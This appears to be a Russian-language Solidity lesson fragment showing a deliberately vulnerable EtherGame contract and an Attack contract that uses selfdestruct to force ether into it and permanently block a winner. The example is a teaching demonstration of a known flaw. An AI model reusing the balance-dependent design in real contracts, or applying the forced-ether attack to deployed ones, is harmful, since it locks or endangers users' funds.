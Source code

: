 В этом случае функция `add()` будет вызвана с параметрами 10 и 20. Результат операции будет отправлен в качестве аргумента функции `emit`.
# 32. Практическая часть в Lesson 13
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

// The goal of this game is to be the 7th player to deposit 1 Ether.
// Players can deposit only 1 Ether at a time.
// Winner will be able to withdraw all Ether.

/*
1. Deploy EtherGame
2. Players (say Alice and Bob) decides to play, deposits 1 Ether each.
2. Deploy Attack with address of EtherGame
3. Call Attack.attack sending 5 ether. This will break the game
   No one can become the winner.

What happened?
Attack forced the balance of EtherGame to equal 7 ether.
Now no one can deposit and the winner cannot be set.
*/

contract EtherGame {
    uint public targetAmount = 7 ether;
    address public winner;

    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        uint balance = address(this).balance;
        require(balance <= targetAmount, "Game is over");

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent, ) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    EtherGame etherGame;

    constructor(EtherGame _etherGame) {
        etherGame = EtherGame(_etherGame);
    }

    function attack() public payable {
        // You can simply break the game by sending ether so that
        // the game balance >= 7 ether

        // cast address to payable
        address payable addr = payable(address(etherGame));
        selfdestruct(addr);
    }
}
```